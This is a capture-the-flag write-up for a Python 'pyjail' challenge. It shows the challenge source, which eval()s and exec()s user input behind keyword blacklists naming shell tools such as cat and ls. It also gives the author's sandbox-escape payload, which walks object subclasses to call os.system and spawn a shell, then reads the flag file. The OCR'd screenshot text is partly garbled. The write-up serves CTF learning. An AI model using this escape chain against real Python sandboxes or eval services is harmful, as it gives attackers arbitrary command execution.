 # list-dir-list
> i am inside '.'. find me out

## About the Challenge
We were given a server to connect and the source code
```
nc chall.foobar.nitdgplug.org 30012
```
And here is the python code
```python
import random
key = open('key.txt').read()
random.seed(2023)
enc_key = ""

for j in range(8):
    i = 0
    lst = []
    while i < len(key):
        lst.append(key[i+j])
        i += 8

    random.shuffle(lst)
    for c in lst:
        enc_key += c

print("this may be helpful:")
print(enc_key)



blacklist = [
    "import",
    "os",
    "sys",
    "ls",
    "cat",
    "la",
    "flag",
    "tac",
    "key",
]

strictly_prohibited = [
    "apt",
    "install",
    "cd",
    "builtins",
    "subprocess",
    "exec",
    "eval",
    "input",
    "blacklist",
    "strictly_prohibited",
    "echo",
    "grep",
    "find",
    "pickle",
    "key",
    "write"
]

while True:
    cmd = input(">>> ")
    evl_cmd = eval(cmd)
    can_run = True
    for word in strictly_prohibited:
        if word in evl_cmd.lower():
            can_run = False
            break

    if can_run:
        if evl_cmd[0:len(key)] == key:
            exec(evl_cmd[len(key):])
        else:
            for word in blacklist:
                if word in evl_cmd.lower():
                    can_run = False
                    break

            if can_run:
                exec(evl_cmd)
```

So the code is about pyjail, we need to escape from the sandbox but there are some restrictions, We cant using some keywords that already stated on `blacklist` and `strictly_prohibited` array. Here is the preview:


[Image extracted text: tthis
may
be helpful:
ajkqj2jhd8cJ3hJh!9Hfcw_yjjy!8Wigi4Hh4!d3y8wbijebolZe2jbnccica3sk
>>> print(1)
Traceback
(most recent
call last):
File
'[chall/challpy"
line 58,
in
<module>
if
word
in evl
lower ( ) :
AttributeError:
'NoneType
object has
no
attribute
lower
cd]


## How to Solve?
Im using https://okman.gitbook.io/okman-writeups/miscellaneous-challenges/redpwnctf-albatross as a reference. And here is my final payload

```
().__class__.__base__.__subclasses__()[137].__init__.__globals__["system"]("sh")
```

This command is using some advanced Python features to execute a system command by accessing a specific subclass of `object` and calling a `global` function or method defined within that subclass


[Image extracted text: this may
be helpful:
ajkqj2jhd8c J3hJh!9Hfcw_yjjy!8Wigi4Hh4!d3y8wbijebolzezjbnccica3sk
7> >
class _
base
subclasses_
[137] .
init
globals_["system" ] ( "sh")
15
chall.py
txt
key.txt
cat
txt
GLUG{hOw_did_u_9u3$$_: (}
flag
flag]


After escaping from the sandbox, try to read the `flag.txt` file to get the flag

```
GLUG{h0w_did_u_9u3$$_:(}
```